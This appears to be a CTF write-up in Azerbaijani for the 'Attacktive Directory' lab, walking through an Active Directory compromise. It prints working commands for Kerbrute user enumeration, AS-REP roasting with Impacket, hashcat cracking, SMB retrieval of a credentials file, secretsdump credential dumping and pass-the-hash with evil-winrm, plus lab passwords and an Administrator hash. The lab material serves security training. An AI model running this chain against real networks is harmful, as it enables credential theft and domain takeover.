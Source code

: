 # Attacktive Directory CTF

Nmap, cihazda hansı portların açıq olduğunu, hansı xidmətlərin işlədiyini aşkar etmək və hətta hansı əməliyyat sisteminin işlədiyini aşkar etmək üçün illər ərzində təkmilləşdirilmiş nisbətən mürəkkəb bir yardım proqramıdır.

```bash
sudo nmap -sV 10.10.56.170 -T4 -vv
```
![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/50ffca3483cc27315a55a5c892b785a6ac0910aa/img/nmap.png)

* Əvvəlcə Impacket Github repo-nu qutunuza klonlamalı olacaqsınız. Aşağıdakı komanda Impacket-i `/opt/impacket-ə` klonlayacaq:
```bash

git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ && python3 ./setup.py install

```
* Hələ də problem yaşayırsınızsa, aşağıdakı skripti sınaqdan keçirə və bunun işlədiyini yoxlaya bilərsiniz:
```bash
sudo git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
sudo pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ 
sudo pip3 install .
sudo python3 setup.py install
```
# Bloodhound və Neo4j quraşdırılması

Bloodhound, Attacktive Directory-ə hücum edərkən istifadə edəcəyimiz başqa bir vasitədir. Alətin xüsusiyyətlərini daha sonra nəzərdən keçirəcəyik, lakin hələlik Apt ilə iki paket quraşdırmalıyıq, bunlar `bloundhound` və `neo4j`. Onu aşağıdakı əmrlə quraşdıra bilərsiniz:

* link: https://www.kali.org/tools/bloodhound/

- Problemlərin aradan qaldırılması (**Troubleshooting**)

Bloodhound və Neo4j quraşdırmaqda probleminiz varsa, aşağıdakı əmri verməyə cəhd edin:
```bash
sudo apt update && apt upgrade
sudo neo4j console

#Yükləmək istədikdə , hər hansı bir problem olsa, onda bu linkə keçid edin:
link: https://www.kali.org/tools/bloodhound/
```
![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/44faca9cb9a8b675093739ebaaa434111eac6768/img/neo.png)

#  Evil-WinRM :
`https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm#using-evil-winrm`

Note : **Evil-WinRM** Windows serverlərinə və iş stansiyalarına **Windows Remote Management (WinRM)** vasitəsilə qoşulmaq üçün istifadə olunan bir alətdir.

```bash
sudo apt install evil-winrm

link : https://www.kali.org/tools/evil-winrm/
```

# Enum4linux:
Enum4linux Windows sistemlərində informasiya toplamaq üçün istifadə olunan bir Linux alətidir. Əsas məqsədi Windows sistemləri haqqında mümkün qədər çox məlumat əldə etməkdir, xüsusilə də Active Directory və ya şəbəkə sınaqları zamanı.

```bash
 enum4linux -a 10.10.56.170 
```
NetBIOS və SMB (Server Message Block) protokolu vasitəsilə məlumat toplamaq:
(139/445)
Sistem adları, domen adları və iş qrupları haqqında məlumat.
Paylaşılan resursların siyahısını çıxarmaq (shared folders).
Aktiv istifadəçilər və qruplar haqqında məlumat.

![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/44faca9cb9a8b675093739ebaaa434111eac6768/img/enum4linux.png)

```bash
# nmap scan vasitəsilə default skriptləri yoxladıq
sudo nmap -sCV  10.10.56.170 -T4 -vv  
```
![image alt]()

# Kerberos
- Kerberos Active Directory daxilində əsas autentifikasiya xidmətidir. Bu portun açıq olması ilə istifadəçiləri, parolları və hətta parol spreyini kobud güclə tapmaq üçün `Kerbrute` adlı alətdən  istifadə edə bilərik!
1. Kerbrute yuklemek ucun: https://github.com/ropnop/kerbrute/releases
2. Parollar üçün wordlists: https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
3. İstifadəçilər üçün wordlists : https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt

```bash
kerbrute userenum --dc 10.10.56.170 -d spookysec.local userlist.txt
```

![image alt]()

**ASREProasting** adlı hücum metodu ilə **Kerberos** sistemindəki bir zəiflikdən sui-istifadə etmək mümkündür. Bu hücum, istifadəçi hesabının **"Ön Doğrulama Tələb Etmir"** (Pre-Authentication Not Required) imtiyazına malik olduğu hallarda baş verir.

Bu nə deməkdir?

- Belə hesablar **Kerberos Bileti (TGT - Ticket Granting Ticket)** tələb etməzdən əvvəl hər hansı bir identifikasiya (məsələn, düzgün parol və ya hər hansı digər təsdiq mexanizmi) təqdim etməyə ehtiyac duymur.
- Bu, hücumçuya həmin hesabın **encrypted bileti**ni əldə edib **offline brute-force hücumu** vasitəsilə parolu açmağa imkan verir.

Bu üsul, xüsusilə zəif və düzgün konfiqurasiya olunmamış Kerberos sistemlərini hədəfləmək üçün istifadə edilir.

_________________________________________________________________________________________________________________________
**Kerbrute** alətindən istifadə edərək sistemdə mövcud olan istifadəçi adlarını müəyyən edib onları bir faylda saxlamışam. Daha sonra isə **Impacket**-in `GetNPUsers.py` skriptindən istifadə edərək, parolsuz **AS-REP Roasting** hücumunu həyata keçirirəm.

Bu proses mənə, hansı istifadəçilərin **Kerberos biletlərini (TGT)** parol təqdim etmədən əldə edə biləcəyimi öyrənməyə imkan verir. Əsas məqsəd, "Ön Doğrulama Tələb Etmir" imtiyazına malik olan hesabları aşkarlamaqdır. Bu cür zəifliklər, düzgün konfiqurasiya olunmamış Active Directory mühitlərində istifadə edilə bilər.

```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -dc-ip 10.10.56.170 spookysec.local/ -no-pass -usersfile
enum-useers
```

# Ümumi hash növləri
link: https://hashcat.net/wiki/doku.php?id=example_hashes

```bash
#GetNPUsers.py ilə əldə etdiyimiz hash yeni bir fayla yazırıq,
#ve onu hashcat ilə crack etməyə çalışacağıq.

hashcat -m 18200 yeni-hash passwordlist.txt 

nəticə : management2005
```
# SMBClient
SMBClient — SMB (Server Message Block) protokolunu istifadə edərək, şəbəkə üzərindən fayl paylaşımı, çap xidmətləri və digər şəbəkə resurslarına daxil olmaq üçün istifadə olunan bir alətdir

```bash
smbclient -L //10.10.143.217/  -U svc-admin
smbclient  //10.10.143.217/backup -U svc-admin
get backup_credentials.txt


#Bu komanda, base64 ilə kodlaşdırılmış mətni deşifrə edir.
echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
```

![image alt]()
![image alt]()
![image alt]()
![image alt]()

# Credential Dumping: Secretsdump aləti ilə Active Directory-dən istifadəçi məlumatlarını ələ keçirdim.
```bash
secretsdump.py 'spookysec.local/svc-admin:management2005@10.10.143.217'
```
![image alt]()

```bash
secretsdump.py 'spookysec.local/backup:backup2517860@10.10.143.217' 
```
![image alt]()

# Pass the hash with evil-winrm

```bash
evil-winrm -u Administrator -H 0e0363213e37b94221497260b0bcb4fc -i 10.10.50.82
```
![image alt]()
![image alt]()
![image alt]()
![image alt]()
![image alt]()
